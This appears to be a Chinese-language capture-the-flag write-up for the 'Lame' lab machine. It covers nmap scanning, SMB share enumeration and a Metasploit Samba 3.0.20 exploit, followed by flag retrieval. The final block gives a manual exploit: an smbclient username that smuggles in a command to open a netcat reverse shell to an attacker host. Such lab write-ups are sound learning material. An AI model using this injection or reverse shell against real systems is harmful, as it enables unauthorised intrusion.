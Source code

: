 # lame

```
nmap -sV -vv -sT --script vuln 10.129.192.173 > res.txt 2>&1
```



```
PORT    STATE SERVICE     REASON         VERSION
21/tcp  open  ftp         syn-ack ttl 63 vsftpd 2.3.4
22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

#### 发现开放了21，22，139，445端口。这里补充一个nmap的技巧，当我们想要更深入了解某一个服务的版本，比方说smb的服务版本。可以使用

```
ls /usr/share/nmap/scripts|grep {service name}
```

#### 我这里看了writeup使用了smb-enum-shares吗，正常的情况下应该对每一种可能出现漏洞的服务进行漏洞扫描。（比如vsftpd,openssh等等其他的服务，都需要仔细地对可能出现漏洞的每一个服务信息收集）

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-29 11:10 CST
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Nmap scan report for 10.129.119.38
Host is up (0.24s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: <blank>
|   \\10.129.119.38\ADMIN$: 
|     Type: STYPE_IPC
|     Comment: IPC Service (lame server (Samba 3.0.20-Debian))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: <none>
|   \\10.129.119.38\IPC$: 
|     Type: STYPE_IPC
|     Comment: IPC Service (lame server (Samba 3.0.20-Debian))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|   \\10.129.119.38\opt: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: <none>
|   \\10.129.119.38\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|   \\10.129.119.38\tmp: 
|     Type: STYPE_DISKTREE
|     Comment: oh noes!
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|_    Anonymous access: READ/WRITE

Nmap done: 1 IP address (1 host up) scanned in 106.91 seconds

```

#### 启动msfconsole，search  Samba 3.0.20-Debian，没有结果。扩大搜索范围search  Samba 3.0.20，找到对应漏洞利用模块。拿到靶机shell。

将shell升级为交互式shell，使用以下模块

```
use post/multi/manage/shell_to_meterpreter
sessions -l 
set session 1
run
cat /home/makis/user.txt
cat /root/root.txt
```

#### 总结：信息收集阶段一定要仔细，对每一个端口上运行的程序，程序的版本都要作记录。因为后续漏洞发现阶段需要用到程序的版本信息。附上不使用msf的漏洞利用命令

```
smbclient -U “/=\`nohup nc -e /bin/sh LHOST LPORT\`” -N -I target_ip 
```


